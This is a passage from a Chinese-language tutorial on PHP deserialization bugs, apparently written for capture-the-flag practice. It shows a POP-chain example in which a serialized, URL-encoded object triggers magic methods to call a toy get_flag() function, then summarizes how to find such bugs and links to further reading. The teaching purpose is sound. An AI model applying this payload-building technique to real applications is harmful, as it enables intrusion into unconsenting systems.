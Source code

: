 ```php
                $this->mod1= new string1();//把 $mod1赋值为string1类对象

        }
        public function __invoke()
        {        
                $this->mod2 = "字符串拼接".$this->mod1;
        } 
}
class string1
{
        public $str1;
        public function __construct()
        {
                $this->str1= new GetFlag();//把 $str1赋值为GetFlag类对象          
        }
        public function __toString()
        {        
                $this->str1->get_flag();
                return "1";
        }
}
class GetFlag
{
        public function get_flag()
        {
                echo "flag:"."xxxxxxxxxxxx";
        }
}
$b = new start_gg;//构造start_gg类对象$b
echo urlencode(serialize($b))."<br />";//显示输出url编码后的序列化对象
```

输出payload后传参，成功执行get_flag()

![696](../../_Attachment/php反序列化入门.assets/image-20240606175039404.png)


另外推荐一下柠檬师傅博客的那道题

> http://www.cnblogs.com/iamstudy/articles/php_unserialize_pop_2.html
> https://cl0und.github.io/2017/10/01/POP%E9%93%BE%E5%AD%A6%E4%B9%A0/

## 0x05 小结

反序列化漏洞一般都是在白盒审计时发现并利用，需要构造PHP序列化代码，利用条件比较苛刻。

总结一下PHP反序列化的挖掘思路，首先进行反序列化的数据点是用户可控的，然后反序列化类中需要有魔术方法，魔术方法中存在敏感操作，或者魔术方法中无敏感操作，但是其对象调用了其他类中的同名函数，可以通过构造POP链利用。

另外再贴一些相关文章，希望对大家有所帮助

> https://xz.aliyun.com/t/3336
> https://xz.aliyun.com/t/2733
> https://www.anquanke.com/post/id/162300